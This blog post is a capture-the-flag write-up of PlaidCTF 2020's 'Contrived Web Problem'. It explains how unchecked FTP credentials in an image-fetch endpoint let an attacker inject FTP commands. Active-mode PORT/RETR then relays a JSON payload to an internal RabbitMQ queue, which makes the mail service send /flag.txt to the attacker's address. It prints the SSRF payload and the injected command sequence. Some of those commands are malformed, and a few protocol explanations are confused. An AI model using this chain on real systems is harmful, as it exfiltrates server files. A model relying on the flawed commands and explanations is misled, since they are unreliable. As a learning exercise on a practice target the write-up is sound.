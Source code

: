 ```yaml
---
title: "Plaidctf 2020: Contrived Web Problem"
date: 2020-04-28T00:48:12-06:00
draft: false
author: "JamVie"
image: Gmail.jpg
tags: ["writeups", "web"]
---
```



This was a CTF I unfortunately didn't have the time for, as I was busy doing finals in April :(. My team let me know about this cool and unique problem, and I'm glad they did! 
<!--more-->


This was a journey in understanding internet protocols that deepened my knowledge of them to completely new levels, so I'm really grateful I got the chance to try this problem out - even though I tried it after the CTF ended :P



Let's Begin!
----

This problem really holds up to its name. The website is simple - you have the option to login or register as a new user. 

![CWP01](https://raw.githubusercontent.com/jamiepoli/JamvieCTF/master/content/images/CWP01.png)

Uniquely, we are given the source code for the problem. The source code shows us that the program has 6 services:

```
\services
    \api 
    \email (email server, sends emails based on rabbitmq queue)
    \ftp
    \postgres (database)
    \rabbit (email queue, will send requests to the email server)
    \server
...
```

Checking out the code, I see that ```flag.txt``` is actually mentioned. It's in the services dockerfile, which is only used by ```api```, ```email``` and ```server``` services. So, the vulnerability probably is within one of these services. 

I checked out ```api``` first - and I see that the only protocols that it allows are HTTP, HTTPS, and FTP. Aside from the FTP protocol, the other 2 are pretty standard protocols to see in APIs. 

Looking at ```email``` next, which uses [nodemailer](https://nodemailer.com/about/). I'm not too familiar with it, so I check out its documentation: 

![CWP02](https://raw.githubusercontent.com/jamiepoli/JamvieCTF/master/content/images/CWP02.png)

This seems like a good loophole to exploit - we just need to specify the filepath and nodemailer will send an email with an attachment of whatever file we specified by the filepath, so we can exploit nodemailer's same origin policy. Since the rabbitmq server is the email server's queue, we will send a rogue email request into rabbitmq's queue to serve up to the email server, which will tell it to email us the flag!

Now the hard part - how _do we_ ask the server? How do we send a request to the server to send us the email with the flag as an attachment? 

I spent a long time trying to figure out how to send a rogue request to the rabbitmq server that will send us the email we want. I spent hours just browsing through the source code, not really paying attention... 

Until I came across this piece of code in the ```api/index.ts``` file: 

```js
    app.get("/image", async (req, res) => {
        let { url } = req.query;
        if (typeof url !== "string") {
            return res.status(500).send("Bad body");
        }

        let parsed = new URL(url);

        let image: Buffer;
        if (parsed.protocol === "http:" || parsed.protocol === "https:") {
            const imageReq = await fetch(parsed.toString(), { method: "GET" });
            image = await (imageReq as any).buffer();
        } 
        
         //THIS PART HERE!
        else if (parsed.protocol === "ftp:") {
            let username = decodeURIComponent(parsed.username);
            let password = decodeURIComponent(parsed.password);
            let filename = decodeURIComponent(parsed.pathname);
            let ftpClient = await connectFtp({
                host: parsed.hostname,
                port: parsed.port !== "" ? parseInt(parsed.port) : undefined,
                user: username !== "" ? username : undefined,
                password: password !== "" ? password : undefined,
            });
            image = await ftpClient.get(filename);
        } else {
            return res.status(500).send("Bad image url");
        }
                if (!isPNG(image)) {
            return res.status(500).send("Bad image (not a png)");
        }

        res.type(".png").status(200).send(image);
    })

    app.listen("4101");

```
Image: the profile picture we would upload when we register as a new user. For HTTP and HTTPS protocols it's a simple GET method, not much to do there. But for FTP? 
It asks for the username, password and filename, _unchecked_, then asynchronously asks the server for the image that matches the filename that we specified. 
FTP is a text-based protocol, and since username and password fields are passed to it unchecked, we could definitely inject some protocol commands, custom data (something like ```{to: "email@example.com", attachments:[{path:"/flag.txt"}]}```), and make FTP send requests that were never intended to be sent. 

Here's something I learned in my internet computing class about the FTP protocol: FTP connections have two modes : "Active" and "Passive". I'll give a heavily truncated explanation of the two modes (if you're interested in learning mroe about the FTP protocol, check out the [RFC specifications on it](https://tools.ietf.org/html/rfc959)):

- In active mode, the client will specify the IP of the destination to the server. The FTP server will then send the files to the specified IP. The client establishes the communication channel, tells the server the address to send data to, and the server will then open a data channel to the address. 

- In passive mode, the server tells the client where the files will be sent to. In this case, the client will then have to open the data channel as well to get the files. By default, applications running FTP will run on passive mode.


The difference in active and passive really lies in the ```RETR``` command in the FTP specifications: active-mode ```RETR``` makes the client stipulate the destination IP, and passive-mode ```RETR``` makes the server stipulate it.

So for this challenge, we can make the FTP client specify the rabbitmq server as the destination IP, and use ```RETR``` to make the FTP server send data to rabbitmq. 

And since the FTP protocol for this application handles for the uploading and retrieval of profile pictures, we just need to hide our payload (which would ask the rabbitmq server to send an email with the flag.txt file in it to us) in our profile picture, specify FTP to operate on active (using ```PORT``` command), and use the ```RETR``` command to let the FTP server send our payload to the rabbitmq server! 

Okay, I've explained alot here. This is the attack plan:

- Craft a payload that will tell the rabbitmq email queue server to email to us, with flag.txt as the attachment. Hide it in the profile picture (make sure its a png). Upload whatever picture it is as our profile picture. 

Here's the payload I crafted (a classic SSRF):
```
{"to":"yourEmailGoesHere@example.com","text":"Hello would you like a flag","attachments":[{"path":"/flag.txt"}]}
```

- Through the username field, input several FTP commands to make the FTP server send our payload to the rabbitmq server. Here, I have made a file called "payload.txt" that has the post request data with the payload in it:

```
PASS blah
PORT 255,255,255,255,80
STOR payload.txt
PORT 172,32,56,72,0, 15672      <-----rabbitmq server and port
RETR payload.txt
```

- Hopefully, the rabbitmq server will send us an email!

```
PCTF{not_that_contrived_i_guess}
```

NOTE: Doing it this way means the FTP server was establishing a connection with the rabbitmq one. However, multiple times I tried this the TCP connection would close immediately after I send my request! I worked around this by sending in a bunch of garbage in my payload.txt file alongside the actual payload, so that at least the TCP connection would have to spend time sending all of that data(think: an unending stream of AAAAAs), and persist long enough for the reponse to be recieved. 

This was a fun way to learn how FTP servers work and how protocols of the internet operate! I'm upset that I didn't have the time to participate when it happened, but nonetheless this was a great challenge :)

Jam